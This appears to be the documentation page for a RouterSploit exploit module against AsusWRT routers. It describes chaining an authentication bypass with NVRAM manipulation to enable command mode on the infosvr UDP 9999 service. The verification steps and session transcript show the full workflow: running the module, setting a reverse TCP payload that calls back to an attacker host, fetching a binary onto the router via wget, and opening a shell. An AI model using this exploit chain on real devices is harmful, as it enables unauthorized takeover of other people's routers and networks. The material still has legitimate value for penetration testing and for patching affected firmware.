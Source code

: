 ## Description

Module exploits multiple vulnerabilities to achieve remote code execution in AsusWRT firmware. The HTTP server contains vulnerability that allows bypass authentication via POST requests. Combining this with another vulnerability in the VPN configuration upload functionality allows setting NVRAM configuration variables directly from the POST request. By setting nvram variable ateCommand_flag to 1 it is possible to enable special command mode which allows executing commands via infosvr server listening on port UDP 9999. Module was tested on Asus RT-AC68U 3.0.0.4.380_7378.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use exploits/routers/asus/asuswrt_lan_rce`
  3. Do: `set target[TargetIP]`
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.

  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.


## Scenarios

```
rsf > use exploits/routers/asus/asuswrt_lan_rce
rsf (AsusWRT Lan RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (AsusWRT Lan RCE) > run
[*] Running module...
[+] Successfuly set ateCommand_flag variable

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                  Description
   -------         ----                  -----------
   bind_tcp        ARMLE Bind TCP        Creates interactive tcp bind shell for ARMLE architecture.
   reverse_tcp     ARMLE Reverse TCP     Creates interactive tcp reverse shell for ARMLE architecture.

cmd > set payload reverse_tcp
cmd (ARMLE Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder


cmd (ARMLE Reverse TCP) > set lhost 192.168.1.115
lhost => 192.168.1.115
cmd (ARMLE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:56981
[+] Enjoy your shell
ls -la
drwxr-xr-x   18 admin    root           325 Mar 15  2017 .
drwxr-xr-x   18 admin    root           325 Mar 15  2017 ..
drwxr-xr-x    2 admin    root             3 Mar 15  2017 asus_jffs
drwxr-xr-x    2 admin    root           706 Mar 15  2017 bin
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs1
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs2
drwxr-xr-x    5 admin    root          1540 Aug  1  2015 dev
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 etc -> tmp/etc
lrwxrwxrwx    1 admin    root             8 Mar 15  2017 home -> tmp/home
drwxr-xr-x    5 admin    root             0 Sep  4 22:40 jffs
drwxr-xr-x    3 admin    root           402 Mar 15  2017 lib
lrwxrwxrwx    1 admin    root             9 Mar 15  2017 media -> tmp/media
drwxr-xr-x    2 admin    root             3 Mar 15  2017 mmc
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 mnt -> tmp/mnt
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 opt -> tmp/opt
dr-xr-xr-x  106 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    7 admin    root           766 Mar 15  2017 rom
lrwxrwxrwx    1 admin    root            13 Mar 15  2017 root -> tmp/home/root
drwxr-xr-x    2 admin    root          2428 Mar 15  2017 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
drwxr-xr-x    2 admin    root             3 Mar 15  2017 sysroot
drwxrwxrwx   13 admin    root           860 Sep  4 22:50 tmp
drwxr-xr-x    8 admin    root           139 Mar 15  2017 usr
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 var -> tmp/var
drwxr-xr-x   14 admin    root          6036 Mar 15  2017 www
```
